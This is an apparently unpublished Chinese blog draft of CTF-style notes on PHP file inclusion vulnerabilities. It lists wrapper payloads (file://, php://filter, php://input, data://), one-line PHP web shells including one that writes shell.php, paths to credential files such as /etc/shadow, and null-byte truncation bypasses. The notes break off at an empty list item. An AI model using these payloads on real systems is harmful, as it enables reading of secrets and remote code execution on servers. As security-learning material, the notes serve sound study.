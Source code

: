 ```yaml
---
layout: post
title: File Include
subtitle: 文件包含漏洞
date: 2025-06-19 11:55
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags: 
published: false
---
```

### 文件包含伪协议

#### file://

用于读取本地文件，必须使用绝对路径，php项目读取php文件时会执行其中代码，导致无法读取到源码。

```php
file:///etc/passwd
file://C:\Windows\System32\drivers\etc\hosts
file:///windows/system32/drivers/etc/hosts
```
#### php://filter

读取指定资源，可以是本地也可以是远程资源，可指定编码类型对内容编码，在读取php文件时可防止其运行，从而读取源码。

```php
php://filter/ {operation}={filter_chain}/resource={source}
php://filter/read=convert.base64-encode/resource=http://www.baidu.com
php://filter/convert.base64-encode/resource=http://www.baidu.com
php://filter/resource=http://www.baidu.com
php://filter/resource=../index.php

operation: read write
filter-chain: convert.base64-encode convert.base64-decode
```
#### php://input

用于读取原始的 POST 请求数据

```php
php://input

POST数据：
<?php eval($_POST['cmd']);?>
<?php fputs(fopen('shell.php','w'),'<?php @eval($_REQUEST["cmd"]);?>');?>
```
#### data://

用于在 URL 中嵌入小块数据

```php
data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b
data://a/b,<?php phpinfo();?>
https://7cdbe539-f220-4021-ac93-fd10996d0f13.challenge.ctf.show
```
#### zlib://

```php
compress.zlib://shell.php.gz
```

### 敏感文件

```
/etc/shadow(存放密码)
/etc/gshadow(存放密码)
/etc/profile(系统环境)
/etc/group(组的数据库文件)
/etc/my.conf(MYSQL配置信息)
/usr/etc/php.ini(PHP配置信息)
/etc/crontab(crontab配置文件)
/etc/passwd(系统用户数据库文件)
/etc/httpd/conf/httpd.conf(Apache配置信息)
```

### 文件包含绕过

1. %00截断

```
?filename=file:///var/log/httpd/access_log%00
```

1. %23截断
2. session文件包含
	session文件保存位置：`/var/lib/php/session`，文件名`sess_xxxx`
3. 
